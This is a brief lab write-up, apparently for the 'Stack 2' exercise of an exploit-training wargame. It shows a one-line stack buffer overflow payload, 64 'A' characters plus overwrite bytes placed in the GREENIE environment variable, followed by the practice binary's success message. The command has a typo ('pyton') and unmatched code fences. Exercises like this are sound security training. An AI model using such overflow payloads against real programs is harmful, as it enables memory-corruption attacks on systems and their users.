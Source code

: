 #Stack 2

Setting environment variable:

```
export GREENIE=$(pyton -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"')

```

After setting environment variable, run the binary

``
you have correctly modified the variable
```
